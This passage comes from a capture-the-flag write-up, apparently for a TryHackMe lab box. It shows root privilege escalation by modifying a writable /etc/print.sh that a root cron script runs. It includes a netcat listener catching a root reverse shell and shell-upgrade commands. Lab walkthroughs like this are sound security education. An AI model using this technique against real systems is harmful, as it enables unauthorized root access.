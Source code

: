 2. Let's now find a way to root.
	1. There is an interesting folder `scripts` in the home folder. 
	2. It contains a `planner.sh` file that run with root permissions every minute. This can be seen from the [linpeas](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/StartUp/ssh/tmp/linpeas_lennie.out) output and [pspy](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/StartUp/ssh/tmp/pspy.out) (Amazing enum tool BTW). 
	3. This inturn invokes `/etc/print.sh` which to our luck is owned by us and can be modified by us. Do you see the path my child??
	4. Let's exploit it with a reverse listener to our box. Tried everything else from file read to shell invoke. Failed. Reverse shell it is.

```bash
lennie@startup:~/scripts$ ls
planner.sh  startup_list.txt
lennie@startup:~/scripts$ ls -la
total 16
drwxr-xr-x 2 root   root   4096 Nov 12  2020 .
drwx------ 7 lennie lennie 4096 Nov 11 11:12 ..
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root   root      1 Nov 11 11:14 startup_list.txt
lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
lennie@startup:~/scripts$ ls -la /etc/print.sh 
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
lennie@startup:~/scripts$ cat /etc/print.sh 
#!/bin/bash
echo "Done!"
```

## PRIVESC

1. We get a reverse shell on the box by updating the `/etc/print.sh` file. And our assumption worked as we are now root.

```bash
└─$ nc -lnvvp 1337
listening on [any] 1337 ...
connect to [10.17.88.193] from (UNKNOWN) [10.10.218.234] 47676
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# bash
exit
# python3 -c 'import pty;pty.spawn("/bin/bash")'       
root@startup:~# ^Z
zsh: suspended  nc -lnvvp 1337
                                                                                                                                   
┌──(kali㉿kali)-[~/…/Easy/StartUp/ssh/tmp]
└─$ stty raw -echo;fg       
[1]  + continued  nc -lnvvp 1337

root@startup:~# export TERM=xterm
root@startup:~# stty rows 38 cols 131
```
